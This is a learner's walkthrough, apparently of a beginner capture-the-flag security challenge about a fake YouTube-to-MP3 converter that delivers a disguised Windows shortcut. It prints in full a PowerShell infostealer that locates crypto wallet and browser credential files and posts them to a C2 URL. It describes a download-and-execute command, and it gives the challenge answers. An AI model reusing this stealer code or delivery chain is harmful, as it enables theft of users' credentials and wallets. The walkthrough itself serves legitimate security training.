# Day 1: Maybe SOC-mas music, he thought, doesn't come from a store.

## Background story
> The below is copied from the day 1 description.

McSkidy's fingers flew across the keyboard, her eyes narrowing at the suspicious website on her screen. She had seen dozens of malware campaigns like this. This time, the trail led straight to someone who went by the name "Glitch."

"Too easy," she muttered with a smirk.

"I still have time," she said, leaning closer to the screen. "Maybe there's more."

Little did she know, beneath the surface lay something far more complex than a simple hacker's handle. This was just the beginning of a tangled web unravelling everything she thought she knew.

> Note: This day's challenge is pretty guided, and so at lot of the information below is my actions following the guidance.

## Connecting to the machine

To tackle this challenge, we need to start the machine and connect to it.

I also used the Attack Box to connect for this challenge, though it could be done using my own machine and OpenVPN as well.

## Investigating the website
The website is a YouTube to MP3 converter. The callenge is about digging deeper into the website as you've had suspicious reports about it.

I accessed the website using the Attack Box's browser.

### The home page
The home page of the website offers a box to paste a YouTube video URL and a button to convert it to MP3.

Below the converter box is some operating procedure text.



Below that on the home page is a section with a poetic official proclamation.



Then comes a list of recent conversions.



And the FAQ section.



This is followed by a statement about the websites security.



Finally, there's a footer with the website's general information.



### The about page
There is also the about page that provides some information about the website.



All of the information on this website seems to suggest that Glitch created it. However, there is an FAQ question about the author that looks a little suspicious!

## Warnings about YouTube to MP3 converters
The Day 1 challenge also provides a warning about using YouTube to MP3 converters. It's important to be cautious when using such services as they can be used to spread malware.

## Getting some tunes
The challenge also suggests that we can use the website to download some tunes. It suggests using this YouTube URL: https://www.youtube.com/watch?v=dQw4w9WgXcQ

I pasted the URL into the converter box and clicked the convert button. It then asks you to selcet whether to convert to MP3 or MP4. I chose MP3 (as suggested by the challenge). This caused a progress bar to appear, and then a download button. I donwloaded the file.

This downloaded a zip file. I extracted the file and found it had 2 MP3 files in it. One was called `song.mp3` and the other `somg.mp3`.

I used the `file` command to check the file types. The `song.mp3` file was a valid MP3 file, but the `somg.mp3` file was an MS Windows Shortcut file (`.lnk`) which can be used to run commands on Windows if the file is attempted to be opened:



I used the `exiftool` command to check the metadata of the `somg.mp3` file. The metadata showed that this link runs a PowerShell command:



The Powershell command disables teh usual security restrictions, download a file from a URL (https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1) and then executes the file. We can see the file by visiting the URL in a browser. The file contents are:

```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

This collects sensitive information from the user's computer, such as crypto wallet files and browser credential files, and sends them to a C2 server.

> Note: This file should not be run on a real Windows computer.

An odd line in the file is `Created by the one and only M.M.`. Is this a hint that the Glitch is not the creator of the website?

## Searching the source
We can try to find the source of the Powershell script by searching GitHub for the phrase `Created by the one and only M.M.`.

This only yields one result:



Clicking on the link takes us to the GitHub repository, which inclues the `IS.ps1` file, and an interesting README file:



> Note: My search results shown above were different than the challenge found, as I didn't look at issues. Top match the challenge, you need to look at the issues section of the search results and select the issues for to the repo `Bloatware-WarevilleTHM/CryptoWallet-Search`. This is needed to answer one of the questions in the challenge.


## Introduction to OPSEC
The challenge also provides an introduction to OPSEC (Operations Security). This is the practice of protecting information that can be used to identify you or your activities. There can be mistakes in OPSEC that can lead to information being leaked.

I'm not going to include the OPSEC information here, but it's worth reading through the challenge to understand the importance of OPSEC.

## Answes to the questions
> Note: This section contains the answers to the questions asked in the challenge. If you don't want spoilers, don't read this section.

### Who was the author of the `song.mp3` file?
The full question is: `Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?`

To find this out we can run `exiftool song.mp3` in the terminal. This shows that the author is `Tyler Ramsbey`.

### What is the URL of this C2 server?
The full question is: `The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?`

The answer can be found in the `IS.ps1` PowerShell script. The URL is `http://papash3ll.thm/data`.

### Who is M.M.?
The full question is: `Who is M.M? Maybe his Github profile page would provide clues?`

The answer was found in the README file of the GitHub repository. M.M. is `Mayor Malware`.

### What is the number of commits on the GitHub repository?
The full question is: `What is the number of commits on the GitHub repository?`

For this answer you need to have been in the issues section of the search results on GitHub. Here you can get to a repository called `Bloatware-WarevilleTHM/CryptoWallet-Search`. Going to the `Code` section of this repo, we can see it has 1 commit.

### Remaining questions
The remaining questions only require you to click `Complete` and have no specific answers to find.


